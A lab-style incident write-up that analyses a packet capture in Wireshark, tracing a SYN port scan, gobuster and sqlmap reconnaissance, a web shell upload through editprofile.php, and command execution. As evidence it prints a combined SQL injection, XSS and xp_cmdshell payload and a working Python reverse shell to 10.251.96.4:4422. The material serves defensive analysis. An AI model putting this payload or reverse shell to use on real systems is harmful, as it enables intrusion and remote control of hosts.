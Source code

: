 # Network Analysis - Web Shell

## Scenario

The SOC received an alert in their SIEM for 'Local to Local Port Scanning' where an internal private IP began scanning another internal system. I was provided with a `.pcap` file and I investigated if this activity is malicious or not, using **Wireshark** in a Kali virtual machine.

## Analysis

I opened the `.pcap` file in **Wireshark** and searched for the packets that correspond to the port scanning activity, these are typically `TCP` packets. 
I started looking for `SYN` packets, which are typical for port scanning. I applied the filter `tcp.flags.syn == 1` and I found numerous `SYN` packets from the source IP  address `10.251.96.4`.

![SYN Packets](../assets/syn-packets.png)

Next, I looked for the port range scanned by the suspicious host. To do that, I ordered the packets by the `Destination port` column and found a clear range of `1 - 1024`.

![1 - 1024 range](../assets/port-range-1-1024.png)

Since most of the packets are `SYN`, it indicates that the attacker is perfmorming a `SYN scan`, a stealthy scan that sends `SYN` packets to open ports but doesn't complete the `TCP handshake`, which is why it doesn't fully establish a connection.

To establish which tools were used to perform reconnaisance against open ports I started to search for signatures. First, I filtered `ip.dst == 10.251.96.5 && http.user_agent` to show all the packets with a user agent string to the target IP. 
I saw many `GET` request to different paths on the same domain, like `admin`, I inspected some of them and I found `gobuster 3.0.1` in the **User-Agent Header**.

![Gobuster found](../assets/gobuster.png)

To establish the second tool, I proceeded to check more `gobuster` packets, this time doing a `POST` request, and I noticed a URL with embedded SQL commands, a clear hint of a possilbe **SQL injection**: 

```
POST /?QLuT=8454%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23
```

A quick research showed me that this is a typical **UNION SELECT** SQL injection payload designed to extract data from the database. The attacker is attempting to retrieve table names from the `information_schema.tables` table, which contains metadata about all tables in the database.

After analyzing the User agent I found another tool: `sqlmap 1.4.7`.

![SQLmap found](../assets/sqlmap.png)

Next question is the name of the PHP file through wich the attacker uploaded a web shell. To approach this, I looked in the `HTTP POST` requests using the filter `http.request.method == "POST"`. The attacker might have uploaded the shell through a `POST` request, which is common for file uploads. I search through the `POST` requests and in the **Referer** header of the `16102` package I found `http://10.251.96.5/editprofile.php`, so I concluded that the attacker interacred with the `editprofile.php` page on the server.

![editprofile.php file](../assets/editprofile-php-file.png)

To find out the name of the web shell that the attacker uploaded, I followed the TCP stream of the packet `16102` - which translates to`tcp.stream eq 1270`- this showed me the packet information and the plaintext of `fileToUpload`, which is `dbfunctions.php`.

![dbfunctions.php file](../assets/dbfunctions-php-file.png)

Next, to find the parameter used in the web shell for executing commands, I looked for interactions with `dbfunctions.php`:

```
http.request.uri contains "dbfunctions.php"
```

This filter checks for `GET` or `POST`requests that target the `dbfunctions.php` file. These requests often contain a parameter that the attacker is using to pass commands for execution.
In the results, I found a `cmd` parameter which contains **operating system commands** like `id` and `whoami`.

Ordering the packets by Number, I found out the first one in being executed is `id.`

![Cmd cparameter](../assets/cmd.png)

The next command being executed is clearly a Python script:

![Python script](../assets/python-script.png)

After cleaning it and indenting it this is the result:

```py
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.251.96.4", 4422))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

This is a `reverse` shell to `10.251.96.4` to utilize `/bin/sh` through the port `4422`.

## Conclusion:

The `.pcap` analysis indicates that the IP `10.251.96.4` was used to conduct an attack on another system in the same network `10.251.93.5`. 

First, a stealthy `SYN` scan over the port range `1 - 1024`, followerd by reconnaisance using `Gobuster` to enumerate directories and `sqlmap` to exploiut a vulenrable web app via SQL injection.

Ther attacker exploited the `editprofile.php` endpoint to upload a malicious PHP web shell named `dbfunctions.php`. Once uploaded, the shell was accessed using a `cmd` parameter to execute OS-level commands remotely. Among these commands, a reverse shell was initiated using Python, establishing a connection to the attacker's machine `10.251.96.4:4422`.

The incident demonstrates a full kill chain: from reconnaissance and exploitation to post exploitation and remote access, and confirms that the activity was indeed **malicious**.